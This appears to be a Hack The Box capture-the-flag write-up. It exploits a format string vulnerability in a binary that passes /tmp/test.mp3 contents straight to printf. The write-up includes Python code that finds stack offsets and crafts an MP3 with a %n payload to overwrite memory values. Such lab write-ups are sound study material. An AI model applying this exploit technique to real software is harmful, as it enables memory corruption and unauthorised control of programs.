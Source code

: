Credit to @X41 for the help on this challenge

HTB Challenge

In this one, we get a web server, and inside the challenge directory, we get a binary.

looking in the binary, we can see that the code looks for a file called `test.mp3` in `/tmp/`, and will check the first three bytes for magic bytes of an MP3. Afterwards, it will check in its own memory for `0xbeef` and `0xc0de`. And then, if it passes these two checks, it will read out the flag.

The key to this exploit is to spot the vulnerable `printf` function

```c
  printf("[*] Analyzing mp3 data: ");
  printf(local_28);
```

This `printf` function is taking in raw data that doesnt have a format control string taking from the data! Meaning, we control the format control string to do whatever we want.

Thanks to [this blog](https://axcheron.github.io/exploit-101-format-strings/) we can easily figure out how to write arbitrary information.

first, locate the pointers you wish to write over with`%x$p` and pwndbg
```python
for i in range (40):
    mp3 = open("/tmp/test.mp3","wb")
    mp3.write(b"\x49\x44\x33")
    mp3.write(f"%{i}$p".encode())
    mp3.close()
    p = e.process()
    output = p.recvline_contains(b"Analyzing mp3 data: ", False)
    print(f"{i}:",sep="",end="")
    print(output)
    p.close()
```

We can see that with values of 12 and 13, we can get the pointers for the `0xdead1337` and `0x1337beef` values, which we can overwrite with `%x$n`, replacing x with positions.

so, according to the blog

> According to the _printf()_ man page, here is what **%n** should do :
> 
> _The number of characters written so far is stored into the integer indicated by the int * (or variant) pointer argument. No argument is converted._
>
> *Hum, It’s a bit cryptic… Basically, it means that **%n** will write the **size** of our input at the address pointed by **%n**. For example, the following input : **AAAA%n**, means that we will write the value 4 (because the size of “AAAA” equals 4) at the address pointed by **%n**.*
 ...
 > *But, here is a trick : `AAAA%<value-4>x%7$n` (it’s value-4 because we already wrote 4 bytes, AAAA). For example, `AAAA%96x%7$n` will write the value **100** at the address **0x41414141**. Why ? Because `%100x` will print your agument padded with 100 bytes (FYI, it pads with “space”).*
 
 We dont need the AAAA padding, so what we need is to write the values to the right addresses. Luckily, python converts hex to ints automatically! So we can simply write
 ```python
 #pointer in 12th offset
beef = 0xbeef
#pointer in 13th offset
code = 0xc0de
```

and use format strings in python to make the correct format control string in the program.
```python
mp3 = open("/tmp/test.mp3","wb")
mp3.write(b"\x49\x44\x33")
#n reads in the amount of bytes, and will write it to the pointer specified before $
mp3.write(f"%{beef}x%12$n%{code-beef}x%13$n".encode()) 
mp3.close()
```

a bit more code to test the malicious file...
```python
flag = open("flag.txt","w")
flag.write("heythere")
flag.close()
p = e.process()
```
And we get
```zsh
[>] Now playing: Darude Sandstorm!

heythere
```

Now to take the file in `/tmp/test.mp3` and boot up the remote instance, and get the flag!

It worked!

https://www.hackthebox.com/achievement/challenge/158887/594